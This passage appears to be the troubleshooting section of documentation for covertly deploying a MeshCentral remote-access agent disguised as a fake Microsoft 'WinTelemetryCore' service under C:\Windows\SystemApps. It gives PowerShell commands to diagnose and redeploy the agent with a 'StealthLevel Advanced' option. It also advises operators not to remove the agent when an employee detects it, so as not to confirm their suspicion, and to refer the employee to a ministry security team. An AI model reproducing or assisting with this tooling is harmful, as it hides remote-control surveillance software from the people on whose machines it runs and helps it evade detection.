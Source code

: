 
## Troubleshooting

### Issue: Service fails to start after deployment

**Symptoms:** Service shows "Stopped" status, cannot be started manually

**Diagnosis:**
```powershell
# Check service status
Get-Service -Name 'WinTelemetryCore' | Format-List *

# Check Windows Event Log
Get-EventLog -LogName System -Source "Service Control Manager" -Newest 20 |
    Where-Object { $_.Message -like '*WinTelemetryCore*' }
```

**Possible Causes:**
1. **Missing .msh configuration file** - MeshAgent cannot connect to server
2. **Incorrect file path** - Executable not found at registered path
3. **Permission issues** - Service account cannot access files
4. **Firewall blocking** - Cannot connect to MeshCentral server
5. **Corrupted database** - meshagent.db (telemetry.db) is corrupted

**Solutions:**
```powershell
# Solution 1: Verify file paths
Test-Path "C:\Windows\SystemApps\Microsoft.Windows.TelemetryCore\TelemetryCore.exe"
Test-Path "C:\Windows\SystemApps\Microsoft.Windows.TelemetryCore\telemetry.conf"  # .msh file

# Solution 2: Check file permissions
Get-Acl "C:\Windows\SystemApps\Microsoft.Windows.TelemetryCore\TelemetryCore.exe" | Format-List

# Solution 3: Test manual execution
& "C:\Windows\SystemApps\Microsoft.Windows.TelemetryCore\TelemetryCore.exe" -debug

# Solution 4: Verify firewall rules
Get-NetFirewallRule | Where-Object { $_.DisplayName -like '*Telemetry*' }

# Solution 5: Re-run deployment script
.\Deploy-StealthMeshAgent.ps1 -MeshServerUrl "https://your-server.com" -StealthLevel Advanced
```

---

### Issue: Agent detected by advanced user

**Symptoms:** Employee reported suspicious process/service, investigation in progress

**Immediate Actions:**

1. **Document** the detection method used by employee
2. **Do NOT** immediately remove agent - this confirms suspicion
3. **Assess** employee's technical capability and intent
4. **Consult** with Ministry security team on next steps

